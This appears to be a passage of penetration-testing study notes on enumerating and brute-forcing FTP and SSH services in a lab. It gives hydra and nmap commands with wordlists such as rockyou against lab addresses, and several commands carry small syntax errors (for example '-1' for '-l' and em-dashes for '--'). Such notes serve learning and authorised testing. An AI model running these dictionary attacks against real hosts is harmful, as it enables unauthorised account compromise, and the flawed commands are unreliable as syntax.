 ``` bash 
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.213.157.3 ftp #enumerate username and password for ftp 
```


``` bash
nmap 192.213.157.3 —-script ftp-brute --script-args userdbs/root/users -p 21 
nmap 192.13.191.3 -p 21 --script ftp-anon

```


# [SSH](https://www.ssh.com/academy/ssh/protocol)
Secure shell (SSH) is **one of the most ubiquitous Linux tools**. It provides secure connectivity among workstations, servers, managed switches, routers, and any number of other devices. Linux and macOS include SSH, and it's easy to add to Windows.

![[Pasted image 20230404032716.png]]

### Connect to the SSH
``` bash
nc 198.222.25.2 22
#connect to the ssh

ssh root@198.65.2.1
#connect to the ssh
```

## SSH Recon
``` bash
nmap 198.222.25.2 22 --script ssh2-enum-algos -p 22 
#Reports the number of algorithms (for encryption, compression, etc.) that the target SSH2 server offers. If verbosity is set, the offered algorithms are each listed by type.

nmap host --script ssh-hostkey --script-args ssh_hostkey=full
# Shows SSH hostkeys. Shows the target SSH server's key fingerprint and (with high enough verbosity level) the public key itself. It records the discovered host keys in `nmap.registry` for use by other scripts. Output can be controlled with the `ssh_hostkey` script argument.`"full"`: The entire key, not just the fingerprint.

 nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=<username>" <target>
#Returns authentication methods that a SSH server supports.
```

### SSH Dictionary Attack

#### Using hydra and nmap
``` bash
hydra -1 student -P /usr/share/wordlists/rockyou.txt 192.141.55.3 ssh

nmap 192.141.55.3 -p 22 —-script ssh-brute ——script-args userdb=/root/user
```
